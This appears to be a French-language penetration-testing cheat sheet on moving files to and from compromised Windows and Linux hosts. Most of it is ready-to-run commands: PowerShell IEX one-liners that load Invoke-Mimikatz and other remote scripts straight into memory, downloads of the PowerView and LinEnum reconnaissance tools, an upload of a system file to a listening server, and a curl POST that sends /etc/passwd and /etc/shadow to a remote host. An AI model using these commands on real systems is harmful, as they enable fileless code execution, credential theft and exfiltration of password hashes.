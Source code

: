# Méthodes de transfert de fichiers Windows
## Méthode PowerShell DownloadFile

### Téléchargement de fichier

```PowerShell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

### PowerShell DownloadString – Méthode sans fichier

Comme nous l'avons vu précédemment, les attaques sans fichier utilisent certaines fonctions du système d'exploitation pour télécharger la charge utile et l'exécuter directement. PowerShell peut également être utilisé pour réaliser des attaques sans fichier. Au lieu de télécharger un script PowerShell sur le disque, nous pouvons l'exécuter directement en mémoire à l'aide de l' applet de commande Invoke-Expression ou de l'alias IEX.

```Powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

À partir de PowerShell 3.0, l' applet de commande Invoke-WebRequest est également disponible, mais son téléchargement est sensiblement plus lent. Vous pouvez utiliser les alias iwr, curl et wget au lieu du Invoke-WebRequest .

```Powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### Erreurs courantes avec PowerShell
Il peut arriver que la configuration du premier lancement d'Internet Explorer n'ait pas été effectuée, ce qui empêche le téléchargement.

```Powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

### Copier un fichier depuis le serveur SMB

```Powershell
copy \\192.168.220.133\share\nc.exe
```

## Téléchargements FTP
### Script PowerShell pour télécharger un fichier sur le serveur de téléchargement Python

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

# Méthodes de transfert de fichiers Linux

Linux est un système d'exploitation polyvalent, doté de nombreux outils permettant de transférer des fichiers. Comprendre les méthodes de transfert de fichiers sous Linux peut aider les attaquants et les défenseurs à améliorer leurs compétences en matière d'attaques réseau et de prévention des attaques sophistiquées.


## Téléchargements Web avec Wget et cURL

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Linux - Téléchargement de fichiers avec SCP

```bash
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

### Linux - Télécharger plusieurs fichiers

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```






https://gist.github.com/HarmJ0y/bb48307ffa663256e239